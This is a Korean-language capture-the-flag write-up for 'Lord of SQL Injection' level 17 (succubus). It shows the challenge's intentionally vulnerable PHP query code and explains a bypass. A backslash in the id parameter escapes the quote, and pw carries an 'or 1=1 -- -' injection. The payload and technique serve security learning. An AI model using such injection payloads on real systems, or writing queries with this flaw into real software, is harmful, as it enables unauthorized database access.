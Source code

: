 # Lord of SQL Injection No.17 - succubus
## 문제 출제 의도
\ (backSlach)을 통해 single quote를 무효화 시킬 수 있는지 확인한다.
## 소스 코드 분석
+ 소스 코드  
succubus 의 소스 코드는 다음과 같다.
    ~~~
    <?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    if(preg_match('/\'/i', $_GET[id])) exit("HeHe"); 
    if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
    $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) solve("succubus"); 
    highlight_file(__FILE__); 
    ?>
    ~~~
+ 소스 코드 분석
    - preg_match
        * GET방식으로 받은 id안에 prob, _, .,(,)이 하나라도 있으면 "No Hack ~_~"이 출력되고 문제 풀이에 실패한다.
        * GET방식으로 받은 pw안에 prob, _, .,(,)이 하나라도 있으면 "No Hack ~_~"이 출력되고 문제 풀이에 실패한다.
        * GET방식으로 받은 id안에 single quote가 있으면 "HeHe"가 출력되고 문제 풀이에 실패한다.
        * GET방식으로 받은 pw안에 single quote가 있으면 "HeHe"가 출력되고 문제 풀이에 실패한다.

## 문제 해결
+ \ back_Slash
    ~~~
    ?id=\&pw=or 1=1 -- -
    ~~~
    위 같은 문자열을 URL뒤에 추가하면하면 id앞의 '부터 pw의 앞의 single quote까지 묶이게 된다.  
    따라서 WHRER을 무시하기 위해 or 1=1 -- - 을 삽입하여 문제를 해결한다.